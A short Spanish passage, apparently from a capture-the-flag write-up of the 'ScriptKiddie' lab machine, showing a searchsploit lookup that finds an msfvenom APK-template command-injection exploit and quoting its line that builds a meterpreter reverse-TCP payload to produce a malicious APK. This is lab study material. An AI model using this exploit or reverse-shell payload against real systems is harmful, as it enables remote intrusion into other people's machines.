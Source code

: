 Si accedemos a `http://10.129.95.150:5000/` vemos lo siguiente

![](/assets/img/ScriptKiddie/image_1.png)

He buscados por `exploits` de `msfvenom` y he encontrado una `inyección de comandos`

```
# searchsploit msfvenom     
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                       |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Metasploit Framework 6.0.11 - msfvenom APK template command injection                                                                                | multiple/local/49491.py
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

`Inspeccionamos` el `código` para ver como se explota y vemos que hay que `generar` una `apk maliciosa`

```
# searchsploit -x multiple/local/49491.py
print(f"Do: msfvenom -x {apk_file} -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null")
```
## Web Exploitation

